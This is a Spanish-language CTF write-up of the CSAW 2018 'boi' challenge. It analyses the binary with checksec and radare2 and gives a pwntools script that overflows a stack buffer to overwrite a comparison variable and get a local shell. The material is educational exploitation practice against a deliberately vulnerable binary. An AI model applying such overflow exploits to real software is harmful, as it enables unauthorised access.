


**Csaw 2018 Quals Boi**


## Análisis

Lo primero que hago es ejecutar **pwn checksec** sobre el binario.

```
h3rshel@kali:~/Desktop/nightmare$ pwn checksec boi           
[*] '/home/h3rshel/Desktop/nightmare/boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Caracteristicas:
- Es un binario de 64bits
- Tiene Stack Canary
- El stack no es ejecutable (NX enabled)

Para este ejercicio, ninguna de estas caracteristicas afecta.

### Boi

Abro el binario con **radare2**, lo analizo y listo las funciones.
 
```
[0x00400641]> afl
0x00400530    1 42           entry0
0x00400510    1 6            sym.imp.__libc_start_main
0x00400560    4 50   -> 41   sym.deregister_tm_clones
0x004005a0    4 58   -> 55   sym.register_tm_clones
0x004005e0    3 28           sym.__do_global_dtors_aux
0x00400600    4 38   -> 35   entry.init0
0x00400750    1 2            sym.__libc_csu_fini
0x00400754    1 9            sym._fini
0x004006e0    4 101          sym.__libc_csu_init
0x00400641    6 159          main
0x00400626    1 27           sym.run_cmd
0x004004f0    1 6            sym.imp.system
0x00400498    3 26           sym._init
0x00400520    1 6            sym..plt.got
0x004004d0    1 6            sym.imp.puts
0x004004e0    1 6            sym.imp.__stack_chk_fail
0x00400500    1 6            sym.imp.read
[...]
```

Entre ellas hay que destacar dos:
- main: Funcion principal
- run_cmd: Ejecuta el comando que se le pase como parámetro.

### Main



En la función **main** hay que destacar 3 partes:
1. Asignación de valores a las variables
2. Entrada del usuario
3. Comparación y ejecución del comando

He renombrado las variables **input** y **deadbeef**  para que sea más fácil de entender.

Para poder obtener **shell**, es necesario que la comparación del punto 3 sea correcta, para ello la variable inicializada como "0xdeadbeef" tiene que ser modificada a "0xcaf3baee". En el caso contrario el programa ejecutará el comando **date**.

## Explotación

Si situo un breakpoint justo antes de la instrucción "cmp" y se puede ver la entrada del usuario y unos bytes a continuación el valor que hay que sobreescribir.



Se puede contar a mano la diferencia de bytes entre una variable y otra o también fijandose en la declaración de las variables al comienzo de la función **main** se pueden restar las dos direcciónes y obtener su diferencia.

```
  0x30
- 0x1c
--------
  0x14 
```

De ambas formas obtenemos una diferencia de 0x14 (20) byte.

Como la diferencia entre las direcciones de ambas variables es menor a la cantidad de bytes que toma el programa como entrada (0x18), es posible sobreescribir la variable "deadbeef".

### Exploit

Creo este script en python el cual será el encargado de mandar el payload al programa.

```py
# Importar la librería pwntools
from pwn import *

# inicial el proceso
target = process('./boi')

payload = b"A" * 0x14 # padding
payload += p32(0xcaf3baee) # sobreescribe variable

target.send(payload)

target.interactive() # obtener shell
```

Al ejecutar el script, obtengo shell.

```
h3rshel@kali:~/Desktop/nightmare$ python3 exploit.py
[+] Starting local process './boi': pid 80139
[*] Switching to interactive mode
Are you a big boiiiii??
$ whoami
h3rshel
$ :)
```

Página original: **[Nightmare](https://guyinatuxedo.github.io/)**.
